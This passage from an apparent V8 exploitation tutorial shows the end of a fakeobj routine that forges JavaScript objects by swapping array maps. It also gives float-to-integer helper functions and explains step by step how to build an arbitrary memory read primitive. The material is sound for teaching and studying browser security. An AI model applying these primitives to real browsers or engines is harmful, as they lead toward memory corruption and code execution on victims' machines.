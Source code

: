 ```
    fl_arr.oob(map1);           // Change the float array's map to the obj array's map
    let fake = fl_arr[0];       // Get a "fake" object at that memory location and store it
    fl_arr.oob(map2);           // Set the map back
    return fake;                // Return the object
}
```

Here is the helper functions:

```
/// Helper functions to convert between float and integer primitives
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}
```

### Arbitrary Read & Write Primitives

#### Arbitrary Read Primitive
To establish an arbitrary address read primitive using `addrof` and `fakeobj`, the process involves manipulating a float array and creating a fake object. Here's a concise explanation of the steps:

1. Create a Float Array: Start with a float array of exactly four elements. The element object of this array will be positioned at the lower 0x30 of the float array object.
2. Create a Fake Object: Transform the elements into a fake object, with the type set as a float array.
3. Place Target Address: Position the target address at element[2] of the float array. This position will be interpreted as the element field of the fake object.
4. Access the Fake Object: By accessing index 0 of the fake object, V8 attempts to retrieve the value at `target address + 0x10`.
